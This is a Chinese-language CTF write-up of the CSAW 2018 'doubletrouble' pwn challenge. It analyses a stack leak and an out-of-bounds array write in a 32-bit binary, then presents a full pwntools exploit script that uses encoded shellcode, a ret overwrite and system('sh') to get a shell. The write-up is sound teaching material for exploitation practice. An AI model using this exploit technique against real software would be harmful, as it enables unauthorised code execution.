




# 4.1 Csaw 2018 doubletrouble Pwn 200 (The Floating)


首先查看程序整体情况



可以看到程序首先输出了一个地址，然后让我们输入一个数字，接着把输入的数字转换成了`double`类型。在后续的处理中进行了求和，获取最大值，最小值的计算，并且使用某种方式选定了一个数字输出。最后对这些数字进行排序。在安全措施方面，程序开启了`canary`，但是`segments`为`RWX` 。

可以首先确定的是第一行输出的是栈上的地址，使用`gdb`进行调试

```cpp
gef➤  r
Starting program: /home/pwn/Desktop/nightmare/modules/11-index/csaw18_doubletrouble/doubletrouble 
0xbfffed18
How long: ^C
...
...
gef➤  vmmap 
Start      End        Offset     Perm Path
0x08048000 0x0804b000 0x00000000 r-x /home/pwn/Desktop/nightmare/modules/11-index/csaw18_doubletrouble/doubletrouble
0x0804b000 0x0804c000 0x00002000 r-x /home/pwn/Desktop/nightmare/modules/11-index/csaw18_doubletrouble/doubletrouble
0x0804c000 0x0804d000 0x00003000 rwx /home/pwn/Desktop/nightmare/modules/11-index/csaw18_doubletrouble/doubletrouble
0x0804d000 0x0806e000 0x00000000 rwx [heap]
0xb7e07000 0xb7e08000 0x00000000 rwx 
0xb7e08000 0xb7fb8000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xb7fb8000 0xb7fb9000 0x001b0000 --- /lib/i386-linux-gnu/libc-2.23.so
0xb7fb9000 0xb7fbb000 0x001b0000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xb7fbb000 0xb7fbc000 0x001b2000 rwx /lib/i386-linux-gnu/libc-2.23.so
0xb7fbc000 0xb7fbf000 0x00000000 rwx 
0xb7fd5000 0xb7fd6000 0x00000000 rwx 
0xb7fd6000 0xb7fd9000 0x00000000 r-- [vvar]
0xb7fd9000 0xb7fdb000 0x00000000 r-x [vdso]
0xb7fdb000 0xb7ffe000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xb7ffe000 0xb7fff000 0x00022000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xb7fff000 0xb8000000 0x00023000 rwx /lib/i386-linux-gnu/ld-2.23.so
0xbffdf000 0xc0000000 0x00000000 rwx [stack]

```
地址`0xbfffed18`在`0xbffdf000 0xc0000000` 之间，可以确定为栈地址泄露。


下面我们使用`IDA`来分析程序，首先看`game`函数

```cpp
int game()
{
  int v0; // esi
  long double v1; // fst7
  long double v2; // fst7
  long double v3; // fst7
  int v4; // eax
  int v6; // [esp+Ch] [ebp-21Ch] BYREF
  int v7; // [esp+10h] [ebp-218h]
  char *s; // [esp+14h] [ebp-214h]
  double v9[64]; // [esp+18h] [ebp-210h] BYREF
  unsigned int v10; // [esp+21Ch] [ebp-Ch]

  v10 = __readgsdword(0x14u);
  printf("%p\n", v9);
  printf("How long: ");
  __isoc99_scanf("%d", &v6);
  getchar();
  if ( v6 > 64 )
  {
    printf("Flag: hahahano. But system is at %d", &system);
    exit(1);
  }
  v7 = 0;
  while ( v7 < v6 )
  {
    s = (char *)malloc(0x64u);
    printf("Give me: ");
    fgets(s, 100, stdin);
    v0 = v7++;
    v9[v0] = atof(s);
  }
  printArray(&v6, v9);
  v1 = sumArray(&v6, v9);
  printf("Sum: %f\n", (double)v1);
  v2 = maxArray(&v6, v9);
  printf("Max: %f\n", (double)v2);
  v3 = minArray(&v6, v9);
  printf("Min: %f\n", (double)v3);
  v4 = findArray(&v6, (int)v9, -100.0, -10.0);
  printf("My favorite number you entered is: %f\n", v9[v4]);
  sortArray(&v6, v9);
  puts("Sorted Array:");
  return printArray(&v6, v9);
}
```
首先输出泄露的地址`v9`，然后让我们输入一个值`v6`，判断是否大于64，如果大于64则退出（因为`v9`只能容纳64个`double`类型）。接着进入循环，输入的字符串不长于`100`，转换成`double`类型并保存到堆上。

接下来的一些函数，就是字面意思`printArray`输出数组信息，`sumArray` 对数组求和，`maxArray` 获取数组的最大值，`minArray`获取数组的最小值。接下来重点关注一些`findArray`函数：

```cpp
int __cdecl findArray(int *a1, int a2, double a3, double a4)
{
  int v5; // [esp+1Ch] [ebp-4h]

  v5 = *a1;
  while ( *a1 < 2 * v5 )
  {
    if ( *(double *)(8 * (*a1 - v5) + a2) > (long double)a3 && a4 > (long double)*(double *)(8 * (*a1 - v5) + a2) )
      return *a1 - v5;
    ++*a1;
  }
  *a1 = v5;
  return 0;
}
```
这个函数中`a1`是一开始输入的数组的长度，当输入的值在`-10`到`-100`之间的时候，函数就会返回，这个数字就是“最喜欢”的值。而不在这个范围内的时候，则会`++*a1` ，这会修改我们一开始所输入的值(`a1` 一开始的时候最大为64，如果当我们输入的值不在范围内，`a1`会递增），造成数组的越界。



可以从上图中看到，我们开始输入的个数为2，但是当我们输入了-23（在-10到-100之间）之后，接下来调用`sortArray`函数时，传入的个数变为了3。

那么我们得到了一个溢出的bug，先来看看输入点到`eip`之间的距离是多少：

首先得知输入点的地址是`0xbfffed18` ,数组的长度位64，占用字节为512字节



`eip`地址是`0xbfffef2c` ，查看栈中数据分布：



由上图可以看到，输入点后24个字节即为`eip`的地址，那么数组只要溢出3位，`double`类型的高4位即可覆盖`eip`的地址。

接下来就是如何来构建我们的利用程序了。我们的思路是这样的，数组溢出4位(即32字节)，刚好可以覆盖掉`eip`后面两个字节。后面两个字节刚好是一个`double`类型。`double`类型的最低四个有效位保存我们`exp`的地址，`eip`则覆盖为`ret`指令的地址。`ret`指令的作用是直接执行下一条指令，也就是说`ret`之后则会跳转到我们的`exp`指令的地址。

我们还需要注意的是默认的`eip`地址为`0x8049841`，把它跟前一个字节`0xbfffef38`组合起来就是`0x08049841bfffef38`，这个数转换成`double`类型后是一个比较大的数值。所以在`eip`指令后面的第二个字节，开头要大于`0x080` ，这样`eip`后两个字节组合成`double`类型后才能比前两个字节组合成的`double`数据要大，`sortArray`函数才能把它们排在`eip` 地址的后面。

这里的问题就是，`canary`的值是随机的，如果说`canary`值开头大于`0x080`，那么经过`sortArray`函数之后，它就会排到`eip`后面去了，这个时候程序检测到`canary` 被修改了利用就会失败，所以这里我们需要多跑几次利用程序，当`canary`的值合适了就可以成功利用。


首先我们在程序里找到一个`ret`指令的地址，然后调用`system()`函数传入`sh`来执行命令

```python
ret        0x080498A4
sh         0x804A12D
system()    0x0804BFF0
```
接下来开始构建`exp` :

* 第一步

把下面的指令放在输入点的最前面，从上一节中知道，要想`double`类型最小，最开始的字节为`0xf` 

```python
push 0x804A12D; jmp $+3
call dword ptr [0x804BFF0]
```
* 第二步

填充输入点，这里填充的数据要大于前面指令转换成`double`类型后的值

* 第三步

把`eip`的地址覆盖成`ret`指令的地址，并在`eip` 地址后面跟`exp`（第一步的指令）的地址，也就是输入点的地址。

下面是代码：

```python
#!/usr/bin/env python
from pwn import *
import struct


def loop():
    target = process('./doubletrouble')

    target.recvuntil('0x')
    stack = target.recv(8)

    stack = int(stack, 16)
    log.info("stack 0x%x", stack)

    target.sendlineafter("long: ", str(64))

    pad = "%.20g" % struct.unpack("<d", p64(0xf8ffffffffffffff))[0]

    ret = 0x080498A400000000
    jmp2exp = 0x0805000000000000 + stack    # addr of shellcode, 要比ret的值大

    sh1 = asm("push 0x804A12D; jmp $+3").ljust(8, '\xfe')       # 变成负数，但是值比pad的小
    sh2 = asm("call dword ptr [0x0804BFF0]").ljust(8, '\xfc')   # 变成负数，值比sh1稍微大一点，但是比pad小

    target.sendline("%.20g" % struct.unpack("<d", sh1)[0])
    target.sendline("%.20g" % struct.unpack("<d", sh2)[0])

    for _ in range(0, 2):
        target.sendline(pad)

    # 此时数组已经越界4个位置了

    target.sendline(str(-50))   # 触发bug

    target.sendline("%.20g" % struct.unpack("<d", p64(ret))[0])
    target.sendline("%.20g" % struct.unpack("<d", p64(jmp2exp))[0])

    # 补全数组剩余的空间
    for _ in range(0, 64-7):
        target.sendline(pad)

    target.interactive()


if __name__ == '__main__':
    for _ in range(0, 1000):
        loop()
```


参考文档

[https://ctftime.org/writeup/11213](https://ctftime.org/writeup/11213)